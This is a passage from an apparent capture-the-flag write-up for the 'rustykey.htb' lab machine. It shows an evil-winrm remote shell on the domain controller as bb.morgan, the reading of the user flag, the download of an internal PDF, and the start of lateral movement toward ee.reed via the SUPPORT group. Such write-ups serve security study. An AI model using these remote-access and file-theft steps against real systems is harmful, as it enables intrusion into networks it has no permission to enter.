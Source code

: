 Connect to target as `bb.morgan` and get user flag:

```console
root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> type ..\Desktop\user.txt
c089bcf4eb71d15e482fc826d35ff99a
```

## 4. Lateral movement

### 4.1. Lateral movement to `ee.reed`

#### 4.1.1. Getting access to `ee.reed`

There's an internal document found on `bb.morgan`'s desktop:

```cmd
*Evil-WinRM* PS C:\Users\bb.morgan> dir Desktop


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         9/5/2025   8:36 PM             34 user.txt


*Evil-WinRM* PS C:\Users\bb.morgan> download Desktop/internal.pdf

Info: Downloading C:\Users\bb.morgan\Desktop/internal.pdf to internal.pdf

Info: Download successful!
```

It appears that the `SUPPORT` group can modify the registry and can test compression/decompression related functions:

![](https://github.com/user-attachments/assets/7d848e6a-34cb-4ad1-8da2-f8f4091f0d7a)

Recall that `ee.reed` is a member of `SUPPORT` group:

![](https://github.com/user-attachments/assets/c1a7443e-8fe0-48c7-8993-3c3d2f6df0fa)
